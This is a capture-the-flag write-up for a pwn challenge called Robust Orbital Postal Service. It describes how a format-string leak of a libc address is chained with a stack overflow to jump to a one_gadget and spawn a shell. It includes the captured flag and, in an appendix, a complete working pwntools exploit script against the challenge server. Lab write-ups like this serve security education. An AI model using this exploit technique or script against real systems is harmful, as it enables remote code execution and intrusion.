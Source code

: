 # Robust Orbital Postal Service
```You managed to break into another one of the imposter's communication system, named the Robust Orbital Postal Service. This service lets the imposters send messages to one another secretly. Are you able to find out about their secrets?```

## Reconnaissance
Doing the things that we should do in Pwn:
![](Images/checksec.png)
![](Images/ida.png)

Also, note that we have a LIBC file:
![](Images/libc.png)
## Vulnerability Analysis
- `printf()` without *format strings* means a **Format String Exploit.**
- Unlike the previous FSBS challenge, there is no `getflag()` function.
    - Unfortunately, there is *NX bit* up.
    - So it has to be a **ret2libc** exploit (at least, that's what I assumed or this challenge would have been out of my capacity).
        - This is also reasonable considering we are given a `custom libc version`.
- PIE implies the need to leak PIE base... or do we?

**Verdict: ret2libc**

## The 15-min Exploit. (Refer to Script)
ret2libc attacks (that I know of) primarily concern themselves with exploiting `one_gadgets`, which spawns a shell so long as the constraints are met.

So we will be looking for `libc offsets` to jump into the `one_gadget`:
![](Images/libc-offset.png)

And the `one_gadget` itself:
![](Images/onegadget.png)

Then, we simply perform your standard ret2libc exploit routine: 

1. Leak `libc base` with a known `libc` function:
![](Images/libcleak.png)

We are using the **Format String Exploit** from the previous challenge (FSBS).

![](Images/libc-offset.png)
Then we look up the custom LIBC offset using LIBC-database.


In this case, our dear address is given by this line in our script:
```python
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
# Subject to change, of course, due to PIE.
```

2. Find our one_gadget address.

This... requires no explanation. Just use `one_gadget`.
![](Images/onegadget.png)

I used the first one.

3. Lastly, **clear all constraints** as stipulated and jump to the `one_gadget`.

Because we are using `rax`, we can simply terminate the input string (`'\0'`) to reset it to `NULL`.

And just like that we clear our constraints!
We spare you the pain of looking at us connect to the server and thus we retrieve the flag:

`DSO-NUS{13514e093f9b3c56ed27bad097ea810b27c1e754b7de98d6ff8bc3006f5ab82d}`

## Appendix: The Script
```python
from pwn import *
context.log_level='DEBUG'
#r=process(["./ROPS"],env={"LD_PRELOAD": "libc.so.6"})
r=remote("ctf-jfi4.balancedcompo.site",9995)
# ROPS.so.6 in libcdatabase: local-f6cb23f4bb2899adab95d11fc2e5eba3ed1c3266
context.terminal=['/usr/bin/tmux', 'splitw', '-h']
r.recvuntil("name:")
r.sendline("%19$p") # This time we want a LIBC address whose offset we can find. This one has offset 243.
r.recvuntil("to:")
r.recvline()
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
print(hex(libc_base))
#pause()
one_gadget=libc_base+0x44b9f
# Three candidates. Depends on the gadgets you can find. I'll try the first one...
# 0x44b9f - requires rax==0
# 0x44bf3 - requires [rsp+0x30]==0
# 0xe85c6 - requires [rsp+0x60]==0
r.sendline(b"\0"+b"A"*263+p64(one_gadget)) # Offset is again found at 264.
r.interactive()

```